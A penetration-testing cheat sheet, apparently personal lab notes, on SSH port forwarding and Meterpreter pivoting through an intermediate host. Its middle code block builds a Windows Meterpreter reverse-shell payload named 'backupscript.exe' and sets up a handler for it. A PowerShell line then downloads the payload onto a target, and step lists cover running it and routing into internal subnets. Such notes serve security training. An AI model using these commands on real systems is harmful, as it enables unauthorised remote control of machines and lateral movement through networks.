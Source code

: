 - **-L Local Port Forwarding**
  - when: we know which service is listening at which port
  - ssh -L [local_port]:target:[port_on_target] user@$TARGET -fN
  - ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
  - -f = background
  - -N no command execution
- **-D Dynamic Port Forwarding**
  - When: we dont know which services lie on the other side = forward traffic to target network
  - ssh -D SOCKS_LISTENER_PORT user@$TARGET
  - ssh -D 9050 user@$TARGET

- **-R Reverse/Remote Port Forwarding**
  - Send traffic from remote target to attacker
  - ssh Remote from pivot:8080 to attacker:8000
    - ssh -R InternalIPPivot:PivotPORT:0.0.0.0:LocalPort user@$PIVOT -vN

```
# meterpreter shell ==> Pivot:8080 --> Attacker:8000
# Example reverse shell for remote forwarding
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
  - use exploit/multi/handler
    - lhost: 0.0.0.0 - lport 8000
    - payload windows/x64/meterpreter/reverse_https
    - payload windows/x64/meterpreter/reverse_http
    - payload windows/x64/meterpreter_reverse_https

or http or inline

# Upload in windows (invoke-webrequest)
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

- Steps
  - Create msf reverse_shell (on attacker) http|https|stage|stageless
  - upload to pivot (to pivot)
  - start http server (on pivot)
  - download shell (remote target)
  - run ssh -R PivotInternalIp:port:Attacker0.0.0.0:Port User@PivotPublic + Dynamic
   

- Check forwarding
  - netstat -antp
    - -a: show all listening/non-listening sockets
    - -n: numerical address
    - -p: program/pid

### Meterpreter Tunneling
- Steps
1. Upload meterpreter shell on the pivot
2. Create listener (multi handler) on the attacker to listen to 1
3. Execute ping sweep on the internal network
4. Set up MSF sock proxy
5. Create routes to internal subnet found on the pivot (module | inside meterpreter)
